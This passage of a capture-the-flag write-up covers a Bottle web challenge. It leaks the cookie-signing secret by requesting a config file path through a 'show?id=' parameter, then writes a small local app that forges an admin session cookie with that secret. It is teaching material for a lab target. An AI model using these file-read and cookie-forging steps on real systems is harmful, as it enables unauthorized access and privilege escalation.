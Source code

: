 ```
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=Vishwa)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=Vishwa)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=80)

```
We need to find the config secret to sign a cookie. From the import section, we can infer the folder and filename, so we fetch it:

http://ch681363157615.ch.eng.run/show?id=/app/config/secret.py

We now know the secret that is used to sign cookies:

![Try Hard](https://github.com/PSrujanReddy/OnlineCTF-Writeups/assets/118731259/a9860290-8639-4051-8c7a-61bd7c9b7941)


`Vishwa = "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd" `

# Forging cookies
To actually forge a cookie, we need to know how the ```bottle ```framework signs cookies. To skip that, I just created a small webapp 
locally using the framework and let it set a cookie set with the same secret:

```
from bottle import route, run, response

@route("/")
def index():
    session = {"name": "admin"}
    response.set_cookie("name", session, secret="trrrrrrrrrrrrryyyyyyyyyyyharddddddddd")
    return "Done"

if __name__ == "__main__":
    run(host="0.0.0.0", port=8080)
```
We get a forged cookie for the admin user:
